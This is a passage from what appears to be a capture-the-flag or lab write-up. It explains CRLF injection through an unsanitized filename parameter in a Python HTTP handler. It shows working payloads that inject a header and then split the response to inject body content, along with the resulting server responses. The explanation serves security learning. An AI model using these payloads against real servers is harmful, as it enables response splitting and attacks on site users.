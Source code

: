 ```python
class MessageHandler(BaseHTTPRequestHandler):
    [...]
    def _sendResponse(self, statusCode, responseBody, contentType, headers=list()):
        [...]
        if headers:
            for header in headers:
                for key, value in header.items():
                    self.send_header(key, value)
        [...]
```

Hmm... Since our `filename` parameter's value didn't get validated or sanitized, we can **inject CRLF (Carriage Return (`\r` / `%0d`) Line Feed (`\n` / `%0a`)) characters**!

For example, we can inject arbitrary headers into the response via the following payload:

```
filename=anything"%0d%0aX-Foo:+bar
```

> Note: The `filename` will be [`strip`](https://docs.python.org/3/library/stdtypes.html#str.strip)'d, which means leading and trailing whitespace characters (including CRLF characters) will be removed by default. Therefore, we need to append non-whitespace characters at the start and at the end of our `filename`.

Response:

```http
HTTP/1.1 200 OK
Server: BaseHTTP/0.6 Python/3.13.7
Content-Type: text/html; charset=utf-8
Content-Length: 90
Content-Disposition: attachment; filename="anything"
X-Foo: bar.html"

[...]
```

As we can see, header `X-Foo` is injected into the response!

But we can do much more!

Instead of injecting arbitrary headers, what if we **inject arbitrary response body data**? This is also known as [response splitting](https://book.jorianwoltjer.com/web/client-side/crlf-header-injection#response-splitting).

To do so, we can inject 2 CRLF characters:

```
anything"%0d%0a%0d%0aour+response+body+data+here
```

Response:

```http
HTTP/1.1 200 OK
Server: BaseHTTP/0.6 Python/3.13.7
Content-Type: text/html; charset=utf-8
Content-Length: 90
Content-Disposition: attachment; filename="anything"

our response body data here.html"

<h1>Message (UUIDv4: 8fdc5142-1fc5-4f7c-a5b6-317f8d591810)</h1><code><pre>foo</pre></code>
```
